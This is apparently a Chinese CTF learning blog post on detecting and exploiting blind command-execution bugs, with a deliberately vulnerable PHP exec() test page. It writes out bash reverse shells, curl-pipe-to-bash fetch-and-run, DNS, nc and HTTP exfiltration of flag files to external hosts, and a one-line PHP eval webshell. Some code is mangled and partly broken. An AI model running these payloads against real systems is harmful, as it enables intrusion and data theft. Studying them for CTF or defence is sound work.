0x01 前言
没错，本篇也是在CTF下遇到无回显命令执行之后来进行的学习，不过网上找了很多文章感觉没一个满意的，只能东拼西凑了。
接下来就开始学习之旅：
在渗透测试、漏洞挖掘或安全研究的过程中，我们会遇到很多无回显的命令执行点。面对这些无回显的命令执行点，我们很难获取命令执行结果，甚至无法判断命令是否执行成功。本篇文章主要讨论面对这些无回显的命令执行点时的判断和利用方法。
0x02 无回显判断
首先我们需要知道该点是否存在命令执行漏洞，或者我们的命令是否执行成功了。这里的研判方法有很多种，最常用的是直接通过延时判断，类似我们sql注入里的时间盲注：
cmd=sleep 5
类似似的函数还有benchmark(count,expr) 和getlock（str，time）。
值得一提的是，windows下并没有sleep命令，那么如何通过时间延时的方式判断windows环境下的命令执行呢？我们可以通过回环ping来达到强制延时的效果：
ping -n 3 127.0.0.1
ping -n 4 127.0.0.1
Linux下同样试用，我们还可以通过ping命令在不同环境下的执行方式来判断目标的操作系统类型：
ping -c 3 127.0.0.1
ping -c 4 127.0.0.1
这里借用参考文章的图片了


延时判断法是在无回显情况下最简单的判断方式，优点是能分辨操作系统、无论目标是否出网都能判断，缺点是只能判断不能利用。
0x03 CTF场景
在ctf中，有时会遇到无回显rce，就是说虽然可以进行命令执行，但却看不到命令执行的结果，也不知道命令是否被执行。
测试代码如下：
1 2 3 4 5 6 7 <?php highlight_file (__FILE__ );$a =$_GET ['a' ];exec ("$a " );?>
命令执行函数我用的是exec,因为这个函数本身是没有回显的，拿来做测试简直不能再合适。

如上图我们执行之后发现页面并没有回显数据，我们首先用sleep命令看看命令是否被成功执行了，看下图它转了五秒之后才恢复说明命令是执行了的：

0x04 绕过方法
4.1 反弹shell
遇到这种无回显的命令执行，很常见的一个思路是反弹shell，因为它虽然不会将命令执行的结果输出在屏幕上，但实际上这个命令它是执行了的，那我们就将shell反弹到自己服务器上，然后再执行命令肯定就可以看到回显了
一般来讲我们反弹shell都用的bash -i >& /dev/tcp/ip/port 0>&1这条命令。–这里呢我复现一直不成功，估计就是环境配置问题，因此这里还是学个思路吧，不想搭环境费时间了。。。
payload：
1 2 3 4 5 bash -i >& /dev/tcp/192.168.17.137/5555 0>&1'bash -i >& /dev/tcp/192.168.17.137/5555 0>&1' //使用指定的bash shell反弹


可以看到他这里已经反弹成功–但我不知道为何复现不成功┭┮﹏┭┮
tip：也可以将命令写入文件，之后在存在命令执行的地方输入curl ip|bash即可反弹
攻击者也可以启动http服务，并在站点目录下存放一个文件，里面写着bash反弹shell命令

1 ?a=curl%20http://192.168.10.128/bashshell|bash
成功反弹到shell

4.2 DNS外带
发起一个dns请求需要通过linux中的ping命令或者curl命令
然后这里推荐一个dnslog的利用平台：ceye http://ceye.io/，注册账号之后，会给一个域名，当发起的请求中含有这个域名时，平台就会有记录。这里也可以利用dnslog平台
payload如下：
1 2 3 cmd=curl `命令`.域

如上图可以看到我们成功令数据回显至ceye平台上去

那么为了让它显示出剩余的结果，我们就需要用到linux的sed命令，用sed命令就可以实现对行的完美划分。
curl ls | sed -n ‘1p’.78c59j.ceye.io


结合上面两个图片可以看到我们可以遍历回显出所有目录下的文件
但是值得注意的是，因为有的字符可能会无法显示或者只显示部分信息，所以说执行命令的时候推荐使用base64编码，然后再解开就好：
1 2 3 1;curl `cat 1.txt | base64`.78c59j.ceye.io

不过缺点很明显，似乎找不到一个方法可以让回显内容完全，并且我的cat 1.txt这条命令不知为何执行不了。
注意：
1 2 3 1）命令执行时要避免空格，空格会导致空格后面的命令执行不到；
举个例子：
1 2 3 4 cat <flag.php|base64 `.cf1gbs.dnslog.cncat flag.php|sed s/[[:space:]]//`.cf1gbs.dnslog.cn
4.3 http请求
靶机通过向VPS发起HTTP请求，VPS监听到请求则代表命令执行成功(注意：ping命令不产生http请求)
VPS：nc -lvp 8888
靶机：cmd=curl ip:8888
这里复现一直不成功，找了几篇文章发现：
1 2 3 4 5 6 目标服务器向个人的公网服务器发起http请求，当该公网服务器收到http请求就代表命令有执行。
估计这里不成功的原因在于我使用的kali且kali没出网依旧处于内网。正常的话应该是下图：

4.4 执行命令（需要站点目录具有写权限）
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 利用cp命令：cp flag.php 1.txt
这里看一个网上例子（复现不好找。。。
eg：通过命令执行直接得到文件内容


将cp where_is_flag.php 1.txt做为参数传递给ping，然后就执行了cp where_is_flag.php 1.txt这个命令，生成1.txt文件，在去访问1.txt，就能得到1.txt的内容（也就是where_is_flag.php的内容），最后找到flag
4.5 直接写入或外部下载webshell
直接写入（需要站点目录具有写权限）
1 echo "<?php @eval(\$_POST[123]); ?>" > webshell.php
外部下载（目标服务器可以连接外网或可以与攻击机互通，且能执行wget命令）
1 2 wget 攻击机ip -O webshell.php
4.6 nc外带
1 2 3 4 5 6 7 靶机：nc ip 8888 < flag.php
4.7 http外带
看到一篇文章推荐的http信道
1 2 ?cmd=curl http://给定的URL /?1=`ls /` 注意如果要编码的话,要加个 .

上图红色标注的地方就是base64加密的结果，我们解密看到下图，可以看到回显的数据很多，似乎这是个优点

4.8 在vps上建立记录脚本
当目标服务器可以向公网服务器发起http请求，并且能执行curl命令或wget命令
1）在个人公网服务器的根目录构造一个记录脚本：7.php 。
1 2 3 4 5 6 7 8 9 10 11 12 "Content-type:text/html; charest=utf-8" );"flag.php" );$ip =$_REQUEST ['ip' ];if ($ip )"ping -c 4" .$ip );
2）在目标服务器的测试点发送任意一条请求进行测试，将获得的flag进行base64解码即可。
1 2 curl http://*.*.*.**/7.php?data=`cat flag.php|base64 `cat flag.php|base64 `
不过这里没看懂，也没复现成功。。。。
4.9 burp(Collaborator Client)
使用 curl -F 将flag文件上传到Burp的Collaborator Client。这是一个类似httpslog+dnslog的插件，其功能比dnslog强大，可以不用搭建任何环境去监听dns和http请求，也可以很方便的查看post请求包和cookie等。
获取Collaborator Client分配给BURP的链接：
打开Burp主界面 -->菜单（Burp）–>Burp Collaboraor Client – > 点击 Copy to Clipboard --此处似乎是低版本的步骤

如上图，我这里是2023版本的，直接就集成了。
靶机：拼接payload并在命令执行处提交即可查看Collaborator Client收到的数据。
1 2 3 cmd=curl -X POST -F xx=@flag.php http://jj6xpgxristzkbn1fpkl32t6jxpndc.burpcollaborator.net

0x05 py脚本（进阶）
上述0x04讲得都是利用现有工具进行绕过，但是进阶的CTF题目似乎都要求你有编写py脚本的能力去进行盲注。这里也是有幸找到了一篇文章对此的分析，虽然脚本不会写，但我先立志看懂他。
假设服务器不出网并且web目录不可写
Linux可以用类似盲注的方式得到回显，这次主要写下Windows的，其实也差不多
